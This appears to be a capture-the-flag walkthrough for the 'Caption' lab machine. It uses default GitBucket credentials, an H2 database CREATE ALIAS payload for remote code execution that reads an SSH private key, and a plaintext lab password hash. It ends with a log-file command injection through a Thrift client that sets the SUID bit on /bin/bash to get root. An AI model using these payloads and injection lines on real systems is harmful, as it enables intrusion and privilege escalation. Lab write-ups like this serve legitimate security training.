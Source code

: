 1, Recon
port scan 
	22/tcp ssh
	80/tcp http `redirect to http://caption.htb`
	8080/tcp http-proxy
By enumerate the web-contents, we find something interesting:
for port 80, there is only the `Caption Portal Login` page, but we don't have any credit.
for port 8080, we find a path `/root` we can find its role in `GitBucket`, but we could not find anything from that.
![[Pasted image 20240915034953.png]]

Besides that ,we still don't have any credit to login.

So crazy, when I try to use the default credit `root:root`, we successfully login.
Then we can find two repositories `root/Logservice` and `root/Caption-Portal` and we need to enumerate all the configs and find some useful credit.

I guess there would be another sub-domain for the service `Logservice`.
Very sad, there is nothing useful.

From `User management`, we find the version 
```
|GITBUCKET_VERSION|4.40.0|
|GITBUCKET_HOME|/home/margo/.gitbucket|
|DATABASE_URL|jdbc:h2:/home/margo/.gitbucket/data;MVCC=true<br><br>GitBucket is using the embedded H2 database. It's recommended that you [configure GitBucket to use an external database](https://github.com/gitbucket/gitbucket/wiki/External-database-configuration) if you're running GitBucket in a production environment.|
```
And we find another interesting page `http://caption.htb:8080/admin/dbviewer`
We can check the database from this page.
```
|USER_NAME|MAIL_ADDRESS|PASSWORD|ADMINISTRATOR|URL|REGISTERED_DATE|UPDATED_DATE|LAST_LOGIN_DATE|IMAGE|GROUP_ACCOUNT|FULL_NAME|REMOVED|DESCRIPTION|
|---|---|---|---|---|---|---|---|---|---|---|---|---|
|root|root@caption.htb|$pbkdf2-sha256$100000$O5zdxA5m9ZtnSSMnUfXK4zw9j/8WgKxo9ItXxVIPw3s=$xUd/Zorr75r/yWR9IXkW7TJlLXuEH+3U1uMAm37cBMk=|true|http://caption.htb|2024-03-08 03:01:05.0|2024-03-08 04:16:07.215|2024-09-15 07:54:33.255|<NULL>|false|Administrator|false|clob1: 'Caption Networks'|


|gitbucket-core|4.40.0|
|gist|4.23.0|
|emoji|4.6.0|
|notifications|1.11.0|
|pages|1.10.0|
```

So I guess it would be our credit hash
`$pbkdf2-sha256$100000$O5zdxA5m9ZtnSSMnUfXK4zw9j/8WgKxo9ItXxVIPw3s=$xUd/Zorr75r/yWR9IXkW7TJlLXuEH+3U1uMAm37cBMk=`
Or it would be just `root:root`

But come to the `DATABASE_URL`, we find h2 database.This kind of database would be always exploited easily by sql injections.

Then we can create the valid payload to help us to RCE
(Good resource: `https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database/') 

```
CREATE ALIAS REVEXEC AS $$ 
String shellexec(String cmd) throws java.io.IOException { 
    java.util.Scanner s = new java.util.Scanner(
        Runtime.getRuntime().exec(cmd).getInputStream()
    ).useDelimiter("\\A"); 
    return s.hasNext() ? s.next() : ""; 
} 
$$;

CALL REVEXEC('cat /home/margo/.ssh/id_ecdsa ');

Then we can get our id_rsa (ssh credit).
```

2, shell as root
Firstly we need to check the net state(verify the applications in gitbucket)
```
netstat -ntlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:9090          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      1310/java           
tcp        0      0 127.0.0.1:6082          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:6081          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3923          0.0.0.0:*               LISTEN      1311/python3        
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      1312/python3        
tcp6       0      0 :::22                   :::*                    LISTEN      -  
```

`127.0.0.1:8000` is the `[Caption-Portal]` application
`127.0.0.1:9090` is the `[Logservice]` application

So if we want to check it, we need to Port forwarding
`ssh -i id_rsa margo@10.10.11.33 -L 9090:localhost:9090`

I forget this is a log analysis service, and don't have the web pages.

Let's continue checking the `app/app.py` and we found the credit of margo and admin
```
username == 'margo' and password == 'vFr&cS2#0!'
username == 'admin' and password == 'cFgjE@0%l0'
```
Although we use them to login to the service of port 80, but there is still nothing for us and we can not check `sudo -l` or switch to another user `ruth`

The way to root is using thrift client and leverage the LogService rce:
(https://thrift.apache.org/tutorial/py.html)
Steps:
1.Setup port forwarding:
`ssh -i id_ecdsa -L 9090:127.0.0.1:9090 margo@caption.htb`

2.Now on the remote machine:
Create a file called: `/tmp/malicious.log`
Edit file to include: 
`127.0.0.1 "user-agent":"'; /bin/bash /tmp/payload.sh #"`

Create another file: `/tmp/payload.sh`
Edit file to include: `chmod +s /bin/bash`

3.Switch to local machine:
create a file called: `log_service.thrift`
Edit file to include:
```
namespace go log_service

service LogService {
    string ReadLogFile(1: string filePath)
}
```

Make sure thrift is installed and run: `thrift -r --gen py log_service.thrift`

`cd gen-py`
create file called: `client.py`

edit file with:

```
from thrift import Thrift
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService  # Import generated Thrift client code

def main():
    # Set up a transport to the server
    transport = TSocket.TSocket('localhost', 9090)

    # Buffering for performance
    transport = TTransport.TBufferedTransport(transport)

    # Using a binary protocol
    protocol = TBinaryProtocol.TBinaryProtocol(transport)

    # Create a client to use the service
    client = LogService.Client(protocol)

    # Open the connection
    transport.open()

    try:
        # Specify the log file path to process
        log_file_path = "/tmp/malicious.log"
       
        # Call the remote method ReadLogFile and get the result
        response = client.ReadLogFile(log_file_path)
        print("Server response:", response)
   
    except Thrift.TException as tx:
        print(f"Thrift exception: {tx}")

    # Close the transport
    transport.close()

if __name__ == '__main__':
    main()
```

4.Root shell is then via `/bin/bash -p`.